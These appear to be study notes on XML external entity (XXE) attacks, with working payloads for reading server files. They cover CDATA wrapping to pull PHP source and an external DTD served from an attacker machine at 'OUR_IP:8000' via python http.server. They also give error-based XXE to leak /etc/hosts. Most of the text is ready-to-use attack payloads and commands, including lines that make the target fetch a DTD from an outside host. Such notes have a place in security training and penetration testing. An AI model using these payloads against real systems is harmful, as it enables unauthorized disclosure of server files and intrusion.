 To output data that does not conform to the XML format, we can wrap the content of the external file reference with a CDATA tag
```shell-session
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
- This will not work since XML prevents joining internal and external entities
- A workaround is to use external entity from file on our host server that joins everything together


1. Store the following in xxe.dtd on our host machine
```shell-session
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```
2. The request should look like this:
```shell-session
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

## Error Based XXE

1. Create a non-existent entity
```shell-session
<email>
  &nonExistentEntity;
</email>
```
- Error shows web path

2. Host a DTD file on host machine
```shell-session
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
python3 -m http.server 8000
```
3. Call the external DTD script, and then reference the error entity as follows:
```shell-session
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```


